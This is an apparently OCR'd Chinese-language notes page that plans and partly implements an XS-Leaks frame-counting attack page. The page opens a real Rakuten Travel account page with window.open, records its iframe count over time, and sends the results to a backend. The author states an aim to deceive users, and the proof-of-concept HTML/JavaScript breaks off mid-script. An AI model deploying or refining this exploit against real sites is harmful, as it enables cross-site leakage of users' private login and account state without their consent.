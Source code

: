 Get iframe of the page 

攻击页面html + javascript / 后台Node.js

- 使用window.open通常认为是一个不构成危险的选择?

  Exploiting XS-Leaks with `window.open` is generally seen as the least appealing option for an attacker because the user can see it happen in the open browser window. However, it’s usually the right technique when:

- 我想我的前端页面和方式可以更好的欺骗用户

## html页面

- 前端功能

1. window.open()打开对应网站登录界面
2. js会读取iframe的数，用户登录后再记录iframe数
3. 将控制台打印的iframe数输出在div标签中,css设置了flex大小
4. submit按钮后将iframe数输出给后台

- 记录两次，乐天旅行界面

```jsx
	<!DOCTYPE html>
<html lang="zh-Hans">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet">
    <title>xs-leaks attack page</title>
  </head>

  <style>
    .sm-item {
      display: flex;
      flex-flow: row nowrap;
      padding-left: 16px;
      font-size: 1.6rem;
    }
    .item-text{
        flex: 1 1 auto;
        margin: 11px 8px 11px 16px;
        font-family: inherit !important;
        /*超过宽度，自动换行*/
        white-space: pre-wrap;
        word-wrap: break-word;
      }
  </style>

  <body style="height: 100%;">
    <h1>XS-leaks through frame counting</h1>
    <p>This is a page to contact login page.</p>
    
    <script type="text/javascript">
      //第一次打开页面记录iframe
      var win = window.open("<https://aps1.travel.rakuten.co.jp/portal/my/prv_page.first?f_tab=1>");
      var pattern1 = [];
      // In a loop, register the number of iframes at 60ms interval
      var recorder = setInterval(() => {
        pattern1.push(win.length)
      }, 60);

      // Break the loop after 6 seconds
      setTimeout(() => {
         clearInterval(recorder);
         console.log("The pattern1 is: ", pattern1.join(', '));
```